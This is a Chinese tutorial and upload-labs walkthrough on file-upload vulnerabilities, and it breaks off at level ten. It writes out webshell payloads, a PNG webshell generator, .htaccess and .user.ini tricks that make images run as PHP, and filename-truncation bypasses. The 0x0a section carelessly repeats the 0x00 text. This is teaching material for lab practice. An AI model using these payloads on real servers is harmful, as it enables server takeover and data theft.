# 文件上传漏洞

* [文件上传漏洞](#文件上传漏洞)
  * [漏洞简介](#漏洞简介)
  * [漏洞原理](#漏洞原理)
  * [漏洞危害](#漏洞危害)
  * [利用方式](#利用方式)
  * [漏洞发现](#漏洞发现)
  * [挖掘方式](#挖掘方式)
  * [文件上传漏洞主要存在以下几个方面](#文件上传漏洞主要存在以下几个方面)
  * [上传绕过](#上传绕过)
    * [客户端检测](#客户端检测)
      * [JS检查](#js检查)
    * [服务端检测](#服务端检测)
      * [后缀黑名单检测](#后缀黑名单检测)
      * [后缀白名单检测](#后缀白名单检测)
      * [上传文件内容检测](#上传文件内容检测)
    * [其他](#其他)
      * [条件竞争](#条件竞争)
  * [漏洞复现](#漏洞复现)
    * [upload\-labs](#upload-labs)
      * [第一关](#第一关)
      * [第二关](#第二关)
      * [第三关](#第三关)
      * [第四关](#第四关)
      * [第五关](#第五关)
      * [第六关](#第六关)
      * [第七关](#第七关)
      * [第八关](#第八关)
      * [第九关](#第九关)
      * [第十关](#第十关)
      * [第十一关](#第十一关)
      * [第十二关](#第十二关)
      * [第十三关](#第十三关)
      * [第十四关](#第十四关)
      * [第十五关](#第十五关)
      * [第十六关](#第十六关)
      * [第十七关](#第十七关)
      * [第十八关](#第十八关)
      * [第十九关](#第十九关)
      * [第二十关](#第二十关)
      * [第二十一关](#第二十一关)
  * [防御措施](#防御措施)
  * [参考资料](#参考资料)

## 漏洞简介

```php
  web应用程序没有对上传的文件进行安全判断或者判断条件不够严谨，导致恶意攻击者可以上传木马脚本文件到服务器中，从而执行恶意代码。
```

## 漏洞原理

```php
 由于开发人员在对用户文件上传部分的控制不足或处理缺陷，而导致用户可以越过其本身权限向服务器上传可执行的动态脚本文件，并通过此脚本文件获得了执行服务端命令的能力。
```

## 漏洞危害

- 获取服务器WebShell权限
- 查看/上传/下载对方文件（任意操作对方服务器数据）
- 查看数据库信息（拖库）
- 执行命令
- 挂黑页

## 利用方式

* 上传小马
* 上传大马
* 上传一句话木马 

## 漏洞发现

- 注册/修改个人信息处（上传头像）
- 敏感身份认证处（身份证照片/银行卡照片/个人照片……）【多为金融/借贷应用】
- 订单评价反馈处（上传商品照片）【淘宝/京东……】
- 朋友圈/空间
- 所有能上传操作的地方……

## 挖掘方式

* 找到上传接口，判断站点开发语言(asp/php/jsp)
* 恶意脚本文件能够上传(上传桡过)
* 拿到上传文件的返回路径

  上传允许的文件，前端/抓包方式查看返回的路径（如果绝对路径直接访问，相对路径按经验进行URl地址拼接）

* 恶意脚本文件能够被Web容器解析执行

## 文件上传漏洞主要存在以下几个方面

1. 可解析的后缀，也就是该语言有多个可解析的后缀，比如 php 语言可解析的后缀为php，php2，php3 等等
2. 大小写混合，如果系统过滤不严，可能大小写可以绕过。
3. 中间件，每款中间件基本都解析漏洞，比如 iis 就可以把 xxx.asp;.jpg 当 asp 来执行。
4. 系统特性，特别是 Windows 的后缀加点，加空格，加 ::$DATA 可以绕过目标系统。
5. 语言漏洞，流行的三种脚本语言基本都存在 00 截断漏洞。
6. 双后缀，这个与系统和中间件无关，偶尔会存在于代码逻辑之中。

## 上传绕过

### 客户端检测

#### JS检查

```php
绕过前端js脚本检测扩展名，就是将所要上传文件的扩展名更改为符合脚本检测规则的扩展名，通过BurpSuite工具，截取数据包，并将数据包中文件扩展名更改回原来的，达到绕过的目的。例如:文件名本来为【shell.jpg】，上传时，用BurpSuite截包后，将数据包中的名字改为【shell.php】(或其它脚本类型)即可。
```


### 服务端检测

#### 后缀黑名单检测

* 上传特殊可解析后缀

| **语言** |                        **可解析后缀**                        |
| :------: | :----------------------------------------------------------: |
| asp/aspx |         asp、aspx、asa、asax、ascx、ashx、asmx、cer          |
|   php    | php、php5、php4、php3、php2、phtml、pht、php7、php6、phtm、PhP |
|   jsp    |            jsp、jspa、jspx、jsw、jsv、jspf、jhtml            |

* 上传.htaccess

在Apache里，`.htaccess`是一个配置文件。它可以用来控制**所在目录的访问权限以及解析设置**。可以通过修改该文件的配置项，将**该目录下的所有文件作为php文件来解析**。

`.htaccess`可以写入apache配置信息，改变**当前目录以及子目录**的apache配置信息。

服务端允许`.htaccess`文件生效，需要在`httpd.conf`中，修改两处配置项：

- Apache加载rewrite模块

  `LoadModule rewrite_module modules/mod_rewrite.so`

- `AllowOverride All`（默认为None）

```php
在可以上传.htaccess文件时，先上传.htaccess文件，覆盖掉原先的.htaccess文件；再上传【shell.png】文件。使用如下的.htaccess语句，即可将【shell.png】文件以php脚本方式解析。
<FilesMatch "shell.png">
SetHandler application/x-httpd-php
</FilesMatch>
```

* 后缀大小写绕过

```php
应用场景：没有将文件后缀统一转换为大写或者是小写，而黑名单不严谨。

绕过方式：大小写绕过

比如：禁止上传
.php|.php5|.php4|.php3|.php2|php1|.html|.htm|.phtml|.pHp|.pHp5|.pHp4|.pHp3|.pHp2|pHp1|.Html|.Htm|.pHtml|.jsp|.jspa|.jspx|.jsw|.jsv|.jspf|.jtml|.jSp|.jSpx|.jSpa|.jSw|.jSv|.jSpf|.jHtml|.asp|.aspx|.asa|.asax|.ascx|.ashx|.asmx|.cer|.aSp|.aSpx|.aSa|.aSax|.aScx|.aShx|.aSmx|.cEr|.sWf|.swf|.htaccess后缀文件，但是没有使用strtolower()函数。
```

* 上传.user.ini

应用场景

- 服务器脚本语言为PHP，并且使用**CGI/FastCGI**模式，php版本>5.3.0
- **上传目录下要有可执行的php文件**
- 服务器脚本语言为PHP

`.user.ini`，它会影响`php.ini`中的配置，从而将指定的文件内容按php来解析，影响的范围该文件所在的目录以及子目录。需要等待`php.ini`中的`user_ini.cache_ttl`设置的时间或重启Apache才能生效，且只在php5.3.0之后的版本才生效。`.user.ini`比`.htaccess`用的更广，不管是`nginx/Apache/IIS`,只要是以`fastcgi`运行的php都可以用这个办法。如果使用Apache，则用`.htaccess`文件有同样的效果。

注意：`.htaccess`只能用于Apache。

在`php.ini`中，有两个新的INI指令

```php
; Name for user-defined php.ini (.htaccess) files. Default is ".user.ini"
; 用户自定义的php.ini文件的名字，默认是.user.ini
user_ini.filename = ".user.ini"

; TTL for user-defined php.ini files (time-to-live) in seconds. Default is 300 seconds (5 minutes)
; 重新读取用户INI文件的时间间隔，默认是300秒（5分钟）
user_ini.cache_ttl = 300
```

大致意思是：我们指定一个文件（如，xxx.jpg），那么该文件就会被包含在要执行的php文件中（如index.php），类似于在index.php中插入一句：`require(./xxx.jpg);`

这两个设置的区别只是在于`auto_prepend_file`是在文件前插入；`auto_append_file`在文件最后插入（当文件调用`exit()`时该设置无效）。

利用方法：

可以上传一个这样的`.user.ini`

```php
auto_prepend_file = xxx.jpg
```

然后再上传一个图片马`xxx.jpg`

```php
<script language='php'>system('whoami');</script>
```

如果在上传目录中还有一个可执行的php文件，访问php文件，就达到了执行系统命令的效果。

总结一下：上传目录中有一个可执行的php文件，我们先上传一个`.user.ini`文件，这个文件的内容为`auto_prepend_file=xxx.jpg`。起到的作用相当于在可执行的php文件前插入图片马中的内容。然后图片马中的恶意代码也会被当做PHP解析。

* 空格绕过

应用场景：服务器为Windows平台，在对用户上传的文件名进行处理时，没有使用`trim()`函数去除字符串收尾处的空白字符。

```php
利用方式：用户上传图片马时，用Burp拦截，在文件尾部加入空格。例如：shell.php空格。带有空格的后缀可以绕过黑名单的检测，而文件存在在Windows服务器上，会自动去除后缀中的空格。
```

* 点绕过

应用场景：Windows平台，服务端没有使用`deldot()`删除文件名末尾的点。

```php
利用方式：上传名为shell.php.的文件。在Windows服务器中，后缀名之后的点，在保存时，会被自动忽略。
```

* ::$DATA绕过

应用场景：Windows平台，没有使用`str_ireplace()`将`::$DATA`替换为空，导致可以利用NTFS文件流特性。

利用方式：

假设xxx.php的内容为`<?php phpinfo();?>`

|        上传的文件名        |  服务器表面现象   |    生成的文件内容    |
| :------------------------: | :---------------: | :------------------: |
|       xxx.php:a.jpg        |    生成xxx.php    |          空          |
|     **xxx.php::$DATA**     |  **生成xxx.php**  | `<?php phpinfo();?>` |
| xxx.php::$INDEX_ALLOCATION | 生成xxx.php文件夹 |                      |
|     xxx.php::$DATA.jpg     |     生成0.jpg     | `<?php phpinfo();?>` |
|   xxx.php::$DATA\aaa.jpg   |    生成aaa.jpg    | `<?php phpinfo();?>` |

这里，我们上传一个名为`xxx.php::$DATA`的木马，然后，在浏览器中访问`xxx.php`。

* 配合解析漏洞/包含漏洞

```php
可配合IS5.x-6.x解析漏洞，apache解析漏洞，nginx解析漏洞，IIS7.5解析漏洞或文件包含漏洞。
```

* 双写后缀名绕过

应用场景：黑名单、使用`str_ireplace()`将匹配到的黑名单中的内容替换为空。

```php
利用方式：因为仅将黑名单中的内容一次替换为空，可以重写绕过。
xxx.phphpp
```


#### 后缀白名单检测

* MIME检查

当浏览器在上传文件到服务器的时候，服务器对说上传文件的Content-Type类型进行检测，如果是白名单允许的，则可以正常上传，否则上传失败。

```php
绕过Content--Type文件类型检测，就是用BurpSuite截取并修改数据包中文件的Content-Type类型(如改为:image/gif)，使其符合白名单的规则，达到上传的目的。
```


* 配合解析漏洞/包含漏洞

```php
可配合IS5.x-6.x解析漏洞，apache解析漏洞，nginx解析漏洞，IIS7.5解析漏洞或文件包含漏洞。
```

* %00截断漏洞

%00是chr(0)，空字符。

程序会把%00当做结束符，后面的数据直接忽略掉。

在文件上传中，利用%00截断，在文件扩展名验证时，是取文件的扩展名来验证，但是最后文件保存在本地时，%00或截断文件名，只保存%00之前的内容。

应用场景：白名单、上传路径可控、php.ini中的`magic_quotes_gpc`为off

```php
通过抓包截断将【shell.php.jpg】后面的一个【.】换成【0x00】。在上传的时候，当文件系统读到【0x00】时，会认为文件已经结束，从而将【shell.php.jpg】的内容写入到【evil.php】中，从而达到攻击的目的。
```

* 0x00截断

  条件：php版本<5.3.4、php.ini中的`magic_quotes_gpc`设置为off、上传路径可控、白名单

```php
如果上传文件的路径为：用户可控的上传路径/随机数.白名单中的后缀
正常情况下，服务器拼接得到的上传图像地址为$img_path =../upload/5920201223231032.gif
但是，用户如果在可控上传路径中写入一个php后缀，并且php后缀后面有一个0x00字符
服务器拼接得到的上传图像地址会变为$img_path =../upload/xxx.php[0x00]/5920201223231032.gif
对后缀进行白名单检测，为gif。但是保存在服务器上的文件，却是xxx.php，因为0x00之后的内容被截断了
```

* 0x0a截断

  条件：php版本<5.3.4、php.ini中的`magic_quotes_gpc`设置为off、上传路径可控、白名单

```php
如果上传文件的路径为：用户可控的上传路径/随机数.白名单中的后缀
正常情况下，服务器拼接得到的上传图像地址为$img_path =../upload/5920201223231032.gif
但是，用户如果在可控上传路径中写入一个php后缀，并且php后缀后面有一个0x00字符
服务器拼接得到的上传图像地址会变为$img_path =../upload/xxx.php[0x00]/5920201223231032.gif
对后缀进行白名单检测，为gif。但是保存在服务器上的文件，却是xxx.php，因为0x0a之后的内容被截断了
```


#### 上传文件内容检测

* 文件头绕过

```php
  在木马内容基础上添加图片头部，如GIF89a<?php phpinfo(); ?>
```

* 突破getimagesize()

```php
getimagesize()函数会返回一个数组，其中下标2是图像的类型。1=GIF，2=JPG, 3=PNG。这里上传一个正常图像后缀的图片马，使用文件包含漏洞运行图片马中的恶意代码即可。
```

* 突破exif_imagetype()

```php
exif_imagetype()— 判断一个图像的类型。检查图像的第一个字节。可能返回的常量有IMAGETYPE_GIF=1；IMAGETYPE_JPEG=2;MAGETYPE_PNG=3;文件头不正确返回false。
上传具有正常文件头的图片马即可。
gif的文件头为GIF89a；png的文件头为89504E47；jpg的文件头为FFD8FF。然后使用文件包含漏洞运行图片马中的恶意代码。
```

* 二次渲染，找到未被污染的图片

gif：找到渲染前后没有变化的位置，将PHP代码写进去。

png：写入IDAT数据块

使用脚本生成图片马

```php
<?php
$p = array(0xa3, 0x9f, 0x67, 0xf7, 0x0e, 0x93, 0x1b, 0x23,
         0xbe, 0x2c, 0x8a, 0xd0, 0x80, 0xf9, 0xe1, 0xae,
         0x22, 0xf6, 0xd9, 0x43, 0x5d, 0xfb, 0xae, 0xcc,
         0x5a, 0x01, 0xdc, 0x5a, 0x01, 0xdc, 0xa3, 0x9f,
         0x67, 0xa5, 0xbe, 0x5f, 0x76, 0x74, 0x5a, 0x4c,
         0xa1, 0x3f, 0x7a, 0xbf, 0x30, 0x6b, 0x88, 0x2d,
         0x60, 0x65, 0x7d, 0x52, 0x9d, 0xad, 0x88, 0xa1,
         0x66, 0x44, 0x50, 0x33);
$img = imagecreatetruecolor(32, 32);
for ($y = 0; $y < sizeof($p); $y += 3) {
 $r = $p[$y];
 $g = $p[$y+1];
 $b = $p[$y+2];
 $color = imagecolorallocate($img, $r, $g, $b);
 imagesetpixel($img, round($y / 3), 0, $color);
}
imagepng($img,'./idat.png');
?>
```

可以看到，在IDAT数据块中，有一句话木马：`<?=$_GET[0]($_POST[1]);?>`，这里利用了PHP中的短开标签。

注意：使用短开标签，需要在php.ini中，将`short_open_tag=On`


### 其他

#### 条件竞争

```php
条件竞争漏洞（Race condition）官方概念是“发生在多个线程同时访问同一个共享代码、变量、文件等没有进行锁操作或者同步操作的场景中。

upload-labs中的Pass-17是一个典型的条件竞争上传

代码执行逻辑：先移动，后检测，不符合再删除，符合则改名字。

因此我们可以让burp一直发包，让php程序一直处于移动php文件到upload目录这个阶段

我们使用多线程并发访问上传的文件，总会有一次在上传文件到删除文件这个时间段访问到上传的php文件，一旦我们成功访问到上传的php文件，那么它就会向服务器写一个shell。
```


## 漏洞复现

### upload-labs



 如何判断上传漏洞类型?



下载连接：https://github.com/c0ny1/upload-labs

#### 第一关

```php
function checkFile() {
    var file = document.getElementsByName('upload_file')[0].value;
    if (file == null || file == "") {
        alert("请选择要上传的文件!");
        return false;
    }
    //定义允许上传的文件类型
    var allow_ext = ".jpg|.png|.gif";
    //提取上传文件的类型
    var ext_name = file.substring(file.lastIndexOf("."));
    //判断上传文件类型是否允许上传
    if (allow_ext.indexOf(ext_name + "|") == -1) {
        var errMsg = "该文件不允许上传，请上传" + allow_ext + "类型的文件,当前文件类型为：" + ext_name;
        alert(errMsg);
        return false;
    }
}
```

前端JS校验上传文件后缀名是否为jpg|png|gif图片

解题思路：

```php
 因为是前端js校验，因此可以直接禁用js或者用burp抓包修改文件类型（上传info.jpg修改为info.php）
```




#### 第二关

```php
$is_upload = false;
$msg = null;
if (isset($_POST['submit'])) {
    if (file_exists(UPLOAD_PATH)) {
        if (($_FILES['upload_file']['type'] == 'image/jpeg') || ($_FILES['upload_file']['type'] == 'image/png') || ($_FILES['upload_file']['type'] == 'image/gif')) {
            $temp_file = $_FILES['upload_file']['tmp_name'];
            $img_path = UPLOAD_PATH . '/' . $_FILES['upload_file']['name']            
            if (move_uploaded_file($temp_file, $img_path)) {
                $is_upload = true;
            } else {
                $msg = '上传出错！';
            }
        } else {
            $msg = '文件类型不正确，请重新上传！';
        }
    } else {
        $msg = UPLOAD_PATH.'文件夹不存在,请手工创建！';
    }
}
```

判断上传文件类型必须为图片格式image/jpeg、image/png、image/gif

解题思路：

```php
 仅判断content-type类型，因此上传shell.php抓包修改content-type为图片类型：image/jpeg、image/png、image/gif
```




#### 第三关

````php
$is_upload = false;
$msg = null;
if (isset($_POST['submit'])) {
    if (file_exists(UPLOAD_PATH)) {
        $deny_ext = array('.asp','.aspx','.php','.jsp');
        $file_name = trim($_FILES['upload_file']['name']);
        $file_name = deldot($file_name);//删除文件名末尾的点
        $file_ext = strrchr($file_name, '.');
        $file_ext = strtolower($file_ext); //转换为小写
        $file_ext = str_ireplace('::$DATA', '', $file_ext);//去除字符串::$DATA
        $file_ext = trim($file_ext); //收尾去空

        if(!in_array($file_ext, $deny_ext)) {
            $temp_file = $_FILES['upload_file']['tmp_name'];
            $img_path = UPLOAD_PATH.'/'.date("YmdHis").rand(1000,9999).$file_ext;            
            if (move_uploaded_file($temp_file,$img_path)) {
                 $is_upload = true;
            } else {
                $msg = '上传出错！';
            }
        } else {
            $msg = '不允许上传.asp,.aspx,.php,.jsp后缀文件！';
        }
    } else {
        $msg = UPLOAD_PATH . '文件夹不存在,请手工创建！';
    }
}
````

黑名单禁止上传asp|aspx|php|jsp后缀名，并将上传文件后缀名转换为小写，删除文件名末尾的点和空格，去除字符串::$DATA

解题思路：

```php
可以上传.phtml .phps .php5 .pht
前提是apache的httpd.conf中有如下配置代码:
AddType application/x-httpd-php .php .phtml .phps .php5 .pht
```




#### 第四关

```php
$is_upload = false;
$msg = null;
if (isset($_POST['submit'])) {
    if (file_exists(UPLOAD_PATH)) {
        $deny_ext = array(".php",".php5",".php4",".php3",".php2",".php1",".html",".htm",".phtml",".pht",".pHp",".pHp5",".pHp4",".pHp3",".pHp2",".pHp1",".Html",".Htm",".pHtml",".jsp",".jspa",".jspx",".jsw",".jsv",".jspf",".jtml",".jSp",".jSpx",".jSpa",".jSw",".jSv",".jSpf",".jHtml",".asp",".aspx",".asa",".asax",".ascx",".ashx",".asmx",".cer",".aSp",".aSpx",".aSa",".aSax",".aScx",".aShx",".aSmx",".cEr",".sWf",".swf",".ini");
        $file_name = trim($_FILES['upload_file']['name']);
        $file_name = deldot($file_name);//删除文件名末尾的点
        $file_ext = strrchr($file_name, '.');
        $file_ext = strtolower($file_ext); //转换为小写
        $file_ext = str_ireplace('::$DATA', '', $file_ext);//去除字符串::$DATA
        $file_ext = trim($file_ext); //收尾去空

        if (!in_array($file_ext, $deny_ext)) {
            $temp_file = $_FILES['upload_file']['tmp_name'];
            $img_path = UPLOAD_PATH.'/'.$file_name;
            if (move_uploaded_file($temp_file, $img_path)) {
                $is_upload = true;
            } else {
                $msg = '上传出错！';
            }
        } else {
            $msg = '此文件不允许上传!';
        }
    } else {
        $msg = UPLOAD_PATH . '文件夹不存在,请手工创建！';
    }
}
```

黑名单禁止上传
.php|.php5|.php4|.php3|.php2|php1|.html|.htm|.phtml|.pHp|.pHp5|.pHp4|.pHp3|.pHp2|pHp1|.Html|.Htm|.pHtml|.jsp|.jspa|.jspx|.jsw|.jsv|.jspf|.jtml|.jSp|.jSpx|.jSpa|.jSw|.jSv|.jSpf|.jHtml|.asp|.aspx|.asa|.asax|.ascx|.ashx|.asmx|.cer|.aSp|.aSpx|.aSa|.aSax|.aScx|.aShx|.aSmx|.cEr|.sWf|.swf|.htaccess后缀文件，并将上传文件后缀名转换为小写并删除文件名末尾的点,空格，去除字符串::$DATA，可以上传.htaccess文件绕过

前提条件

`1.mod_rewrite模块开启。`

`2.AllowOverride All`

解题思路：

```php
上传.htaccess文件时，先上传.htaccess文件，覆盖掉原先的.htaccess文件；再上传【shell.png】文件。使用如下的.htaccess语句，即可将【shell.png】文件以php脚本方式解析。
<FilesMatch "shell.png">
SetHandler application/x-httpd-php
</FilesMatch>
```

上传.htaccess



上传shell.png



成功将shell.jpg文件当成php文件解析执行


#### 第五关

```php
$is_upload = false;
$msg = null;
if (isset($_POST['submit'])) {
    if (file_exists(UPLOAD_PATH)) {
        $deny_ext = array(".php",".php5",".php4",".php3",".php2",".html",".htm",".phtml",".pht",".pHp",".pHp5",".pHp4",".pHp3",".pHp2",".Html",".Htm",".pHtml",".jsp",".jspa",".jspx",".jsw",".jsv",".jspf",".jtml",".jSp",".jSpx",".jSpa",".jSw",".jSv",".jSpf",".jHtml",".asp",".aspx",".asa",".asax",".ascx",".ashx",".asmx",".cer",".aSp",".aSpx",".aSa",".aSax",".aScx",".aShx",".aSmx",".cEr",".sWf",".swf",".htaccess");
        $file_name = trim($_FILES['upload_file']['name']);
        $file_name = deldot($file_name);//删除文件名末尾的点
        $file_ext = strrchr($file_name, '.');
        $file_ext = strtolower($file_ext); //转换为小写
        $file_ext = str_ireplace('::$DATA', '', $file_ext);//去除字符串::$DATA
        $file_ext = trim($file_ext); //首尾去空
        
        if (!in_array($file_ext, $deny_ext)) {
            $temp_file = $_FILES['upload_file']['tmp_name'];
            $img_path = UPLOAD_PATH.'/'.$file_name;
            if (move_uploaded_file($temp_file, $img_path)) {
                $is_upload = true;
            } else {
                $msg = '上传出错！';
            }
        } else {
            $msg = '此文件类型不允许上传！';
        }
    } else {
        $msg = UPLOAD_PATH . '文件夹不存在,请手工创建！';
    }
}
```

黑名单禁止上传
.php|.php5|.php4|.php3|.php2|php1|.html|.htm|.phtml|.pHp|.pHp5|.pHp4|.pHp3|.pHp2|pHp1|.Html|.Htm|.pHtml|.jsp|.jspa|.jspx|.jsw|.jsv|.jspf|.jtml|.jSp|.jSpx|.jSpa|.jSw|.jSv|.jSpf|.jHtml|.asp|.aspx|.asa|.asax|.ascx|.ashx|.asmx|.cer|.aSp|.aSpx|.aSa|.aSax|.aScx|.aShx|.aSmx|.cEr|.sWf|.swf|.htaccess后缀文件，并将上传文件后缀名转换成小写，删除文件名末尾的点和空格，去除字符串::$DATA，可以上传.user.ini文件绕过

.user.ini应用场景

- 服务器脚本语言为PHP，并且使用**CGI/FastCGI**模式，php版本>5.3.0
- **上传目录下要有可执行的php文件**
- 服务器脚本语言为PHP

解题思路：

```php
(1)上传.user.ini文件，内容如下：
  auto_prepend_file=shell.png
(2)上传一张shell.png图片木马，内容如下:
  <?php @eval($_POST['cmd']);?>
(3)作者给了提示在上传目录下是有一个readme.php文件的，所以直接访问此文件就可以包含上传的shell了
```




#### 第六关

```php
$is_upload = false;
$msg = null;
if (isset($_POST['submit'])) {
    if (file_exists(UPLOAD_PATH)) {
        $deny_ext = array(".php",".php5",".php4",".php3",".php2",".html",".htm",".phtml",".pht",".pHp",".pHp5",".pHp4",".pHp3",".pHp2",".Html",".Htm",".pHtml",".jsp",".jspa",".jspx",".jsw",".jsv",".jspf",".jtml",".jSp",".jSpx",".jSpa",".jSw",".jSv",".jSpf",".jHtml",".asp",".aspx",".asa",".asax",".ascx",".ashx",".asmx",".cer",".aSp",".aSpx",".aSa",".aSax",".aScx",".aShx",".aSmx",".cEr",".sWf",".swf",".htaccess",".ini");
        $file_name = trim($_FILES['upload_file']['name']);
        $file_name = deldot($file_name);//删除文件名末尾的点
        $file_ext = strrchr($file_name, '.');
        $file_ext = str_ireplace('::$DATA', '', $file_ext);//去除字符串::$DATA
        $file_ext = trim($file_ext); //首尾去空

        if (!in_array($file_ext, $deny_ext)) {
            $temp_file = $_FILES['upload_file']['tmp_name'];
            $img_path = UPLOAD_PATH.'/'.date("YmdHis").rand(1000,9999).$file_ext;
            if (move_uploaded_file($temp_file, $img_path)) {
                $is_upload = true;
            } else {
                $msg = '上传出错！';
            }
        } else {
            $msg = '此文件类型不允许上传！';
        }
    } else {
        $msg = UPLOAD_PATH . '文件夹不存在,请手工创建！';
    }
}
```

黑名单禁止上传
.php|.php5|.php4|.php3|.php2|php1|.html|.htm|.phtml|.pHp|.pHp5|.pHp4|.pHp3|.pHp2|pHp1|.Html|.Htm|.pHtml|.jsp|.jspa|.jspx|.jsw|.jsv|.jspf|.jtml|.jSp|.jSpx|.jSpa|.jSw|.jSv|.jSpf|.jHtml|.asp|.aspx|.asa|.asax|.ascx|.ashx|.asmx|.cer|.aSp|.aSpx|.aSa|.aSax|.aScx|.aShx|.aSmx|.cEr|.sWf|.swf|.htaccess|.ini后缀文件，并上传文件删除文件名末尾的点,空格，去除字符串::$DATA

解题思路：

```php
 题目未对大小写进行严格要求，这里可以上传shell.PHP来绕过过滤
```




#### 第七关

```php
$is_upload = false;
$msg = null;
if (isset($_POST['submit'])) {
    if (file_exists(UPLOAD_PATH)) {
        $deny_ext = array(".php",".php5",".php4",".php3",".php2",".html",".htm",".phtml",".pht",".pHp",".pHp5",".pHp4",".pHp3",".pHp2",".Html",".Htm",".pHtml",".jsp",".jspa",".jspx",".jsw",".jsv",".jspf",".jtml",".jSp",".jSpx",".jSpa",".jSw",".jSv",".jSpf",".jHtml",".asp",".aspx",".asa",".asax",".ascx",".ashx",".asmx",".cer",".aSp",".aSpx",".aSa",".aSax",".aScx",".aShx",".aSmx",".cEr",".sWf",".swf",".htaccess",".ini");
        $file_name = $_FILES['upload_file']['name'];
        $file_name = deldot($file_name);//删除文件名末尾的点
        $file_ext = strrchr($file_name, '.');
        $file_ext = strtolower($file_ext); //转换为小写
        $file_ext = str_ireplace('::$DATA', '', $file_ext);//去除字符串::$DATA
        
        if (!in_array($file_ext, $deny_ext)) {
            $temp_file = $_FILES['upload_file']['tmp_name'];
            $img_path = UPLOAD_PATH.'/'.date("YmdHis").rand(1000,9999).$file_ext;
            if (move_uploaded_file($temp_file,$img_path)) {
                $is_upload = true;
            } else {
                $msg = '上传出错！';
            }
        } else {
            $msg = '此文件不允许上传';
        }
    } else {
        $msg = UPLOAD_PATH . '文件夹不存在,请手工创建！';
    }
}

```

黑名单禁止上传
.php|.php5|.php4|.php3|.php2|php1|.html|.htm|.phtml|.pHp|.pHp5|.pHp4|.pHp3|.pHp2|pHp1|.Html|.Htm|.pHtml|.jsp|.jspa|.jspx|.jsw|.jsv|.jspf|.jtml|.jSp|.jSpx|.jSpa|.jSw|.jSv|.jSpf|.jHtml|.asp|.aspx|.asa|.asax|.ascx|.ashx|.asmx|.cer|.aSp|.aSpx|.aSa|.aSax|.aScx|.aShx|.aSmx|.cEr|.sWf|.swf| .htaccess|.ini 后缀文件，并将上传文件后缀名转换成小写，删除文件名末尾的点，去除字符串::$DATA。

解题思路：

```php
 题目没有对后缀名进行去空，因此可以在后缀名加空格绕过,如shell.php[空格]  //需要在Windows系统下
```




#### 第八关

```php
$is_upload = false;
$msg = null;
if (isset($_POST['submit'])) {
    if (file_exists(UPLOAD_PATH)) {
        $deny_ext = array(".php",".php5",".php4",".php3",".php2",".html",".htm",".phtml",".pht",".pHp",".pHp5",".pHp4",".pHp3",".pHp2",".Html",".Htm",".pHtml",".jsp",".jspa",".jspx",".jsw",".jsv",".jspf",".jtml",".jSp",".jSpx",".jSpa",".jSw",".jSv",".jSpf",".jHtml",".asp",".aspx",".asa",".asax",".ascx",".ashx",".asmx",".cer",".aSp",".aSpx",".aSa",".aSax",".aScx",".aShx",".aSmx",".cEr",".sWf",".swf",".htaccess",".ini");
        $file_name = trim($_FILES['upload_file']['name']);
        $file_ext = strrchr($file_name, '.');
        $file_ext = strtolower($file_ext); //转换为小写
        $file_ext = str_ireplace('::$DATA', '', $file_ext);//去除字符串::$DATA
        $file_ext = trim($file_ext); //首尾去空
        
        if (!in_array($file_ext, $deny_ext)) {
            $temp_file = $_FILES['upload_file']['tmp_name'];
            $img_path = UPLOAD_PATH.'/'.$file_name;
            if (move_uploaded_file($temp_file, $img_path)) {
                $is_upload = true;
            } else {
                $msg = '上传出错！';
            }
        } else {
            $msg = '此文件类型不允许上传！';
        }
    } else {
        $msg = UPLOAD_PATH . '文件夹不存在,请手工创建！';
    }
}

```

黑名单禁止上传
.php|.php5|.php4|.php3|.php2|php1|.html|.htm|.phtml|.pHp|.pHp5|.pHp4|.pHp3|.pHp2|pHp1|.Html|.Htm|.pHtml|.jsp|.jspa|.jspx|.jsw|.jsv|.jspf|.jtml|.jSp|.jSpx|.jSpa|.jSw|.jSv|.jSpf|.jHtml|.asp|.aspx|.asa|.asax|.ascx|.ashx|.asmx|.cer|.aSp|.aSpx|.aSa|.aSax|.aScx|.aShx|.aSmx|.cEr|.sWf|.swf| .htaccess|.ini 后缀文件，并将上传文件后缀名转换成小写，首尾去空，去除字符串::$DATA。

解题思路：

```php
 没对后缀名末尾的点进行处理，利用windows特性，会自动去掉后缀名中最后的"."，可在后缀名中加"."绕过：如shell.php. //需要在Windows系统下
```




#### 第九关

```php
$is_upload = false;
$msg = null;
if (isset($_POST['submit'])) {
    if (file_exists(UPLOAD_PATH)) {
        $deny_ext = array(".php",".php5",".php4",".php3",".php2",".html",".htm",".phtml",".pht",".pHp",".pHp5",".pHp4",".pHp3",".pHp2",".Html",".Htm",".pHtml",".jsp",".jspa",".jspx",".jsw",".jsv",".jspf",".jtml",".jSp",".jSpx",".jSpa",".jSw",".jSv",".jSpf",".jHtml",".asp",".aspx",".asa",".asax",".ascx",".ashx",".asmx",".cer",".aSp",".aSpx",".aSa",".aSax",".aScx",".aShx",".aSmx",".cEr",".sWf",".swf",".htaccess",".ini");
        $file_name = trim($_FILES['upload_file']['name']);
        $file_name = deldot($file_name);//删除文件名末尾的点
        $file_ext = strrchr($file_name, '.');
        $file_ext = strtolower($file_ext); //转换为小写
        $file_ext = trim($file_ext); //首尾去空
        
        if (!in_array($file_ext, $deny_ext)) {
            $temp_file = $_FILES['upload_file']['tmp_name'];
            $img_path = UPLOAD_PATH.'/'.date("YmdHis").rand(1000,9999).$file_ext;
            if (move_uploaded_file($temp_file, $img_path)) {
                $is_upload = true;
            } else {
                $msg = '上传出错！';
            }
        } else {
            $msg = '此文件类型不允许上传！';
        }
    } else {
        $msg = UPLOAD_PATH . '文件夹不存在,请手工创建！';
    }
}
```

黑名单禁止上传
.php|.php5|.php4|.php3|.php2|php1|.html|.htm|.phtml|.pHp|.pHp5|.pHp4|.pHp3|.pHp2|pHp1|.Html|.Htm|.pHtml|.jsp|.jspa|.jspx|.jsw|.jsv|.jspf|.jtml|.jSp|.jSpx|.jSpa|.jSw|.jSv|.jSpf|.jHtml|.asp|.aspx|.asa|.asax|.ascx|.ashx|.asmx|.cer|.aSp|.aSpx|.aSa|.aSax|.aScx|.aShx|.aSmx|.cEr|.sWf|.swf| .htaccess|.ini 后缀文件，并将上传文件后缀名转换成小写，删除文件名末尾的点和首尾空格。

解题思路：

```php
没有对后缀名中的’::$DATA’进行过滤。在php+windows的情况下：如果文件名+"::$DATA"会把::$DATA之后的数据当成文件流处理,不会检测后缀名.且保持"::$DATA"之前的文件名。利用windows特性，可在后缀名中加” ::$DATA”绕过：  //需要在Windows系统下
```




#### 第十关

```php
$is_upload = false;
$msg = null;
if (isset($_POST['submit'])) {
    if (file_exists(UPLOAD_PATH)) {
